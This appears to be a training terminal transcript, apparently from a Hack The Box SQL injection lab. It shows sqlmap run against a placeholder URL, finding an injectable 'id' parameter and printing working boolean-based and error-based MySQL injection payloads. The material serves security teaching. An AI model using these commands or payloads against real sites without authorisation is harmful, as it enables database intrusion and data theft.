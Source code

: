 ```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```